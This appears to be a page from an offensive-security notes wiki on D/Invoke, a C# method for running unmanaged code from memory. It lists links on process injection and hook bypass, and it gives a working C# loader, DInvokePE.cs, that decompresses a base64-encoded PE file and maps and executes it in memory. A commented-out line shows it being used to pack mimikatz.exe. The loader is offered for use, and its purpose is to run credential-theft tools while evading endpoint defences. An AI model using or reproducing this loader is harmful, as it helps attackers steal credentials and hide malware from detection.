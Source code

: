 ```yaml
---
description: Dynamic Invocation. Acts as a replacement for PInvoke to dynamically invoke unmanaged code from memory in C#
---
```


# D/Invoke

* [https://dinvoke.net/](https://dinvoke.net/)
* [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)
* [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
* [https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/](https://web.archive.org/web/20210601171512/https://rastamouse.me/blog/process-injection-dinvoke/)
* [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/Dinvoke_CreateRemoteThread.cs)
* [https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/](https://blog.nviso.eu/2020/11/20/dynamic-invocation-in-net-to-bypass-hooks/)
* [https://offensivedefence.co.uk/posts/dinvoke-syscalls/](https://offensivedefence.co.uk/posts/dinvoke-syscalls/)




## Dynamic P/Invoke

- [https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/](https://bohops.com/2022/04/02/unmanaged-code-execution-with-net-dynamic-pinvoke/)




## Run PE From Memory

- [https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs](https://github.com/S3cur3Th1sSh1t/Creds/blob/master/Csharp/PE_Loader_DInvoke_ManualMap.cs)

{% code title="DInvokePE.cs" %}
```csharp
using System;
using System.IO;
using System.IO.Compression;

namespace DInvokePE
{
    public class Program
    {
        static byte[] Compress(byte[] data)
        {
            MemoryStream output = new MemoryStream();
            using (DeflateStream dStream = new DeflateStream(output, CompressionLevel.Optimal))
                dStream.Write(data, 0, data.Length);

            return output.ToArray();
        }

        static byte[] Decompress(byte[] data)
        {
            MemoryStream input = new MemoryStream(data);
            MemoryStream output = new MemoryStream();
            using (DeflateStream dStream = new DeflateStream(input, CompressionMode.Decompress))
                dStream.CopyTo(output);

            return output.ToArray();
        }

        public static void Main(string[] args)
        {
            /*
            var rawBytes = File.ReadAllBytes(@"C:\Users\snovvcrash\Desktop\mimikatz.exe");
            var compressed = Compress(rawBytes);
            var compressedB64 = Convert.ToBase64String(compressed);
            */

            var compressed = Convert.FromBase64String("");
            var rawBytes = Decompress(compressed);
            DInvoke.Data.PE.PE_MANUAL_MAP map = DInvoke.ManualMap.Map.MapModuleToMemory(rawBytes);
            DInvoke.DynamicInvoke.Generic.CallMappedPEModule(map.PEINFO, map.ModuleBase);
            Console.ReadLine();
        }
    }
}
```
{% endcode %}
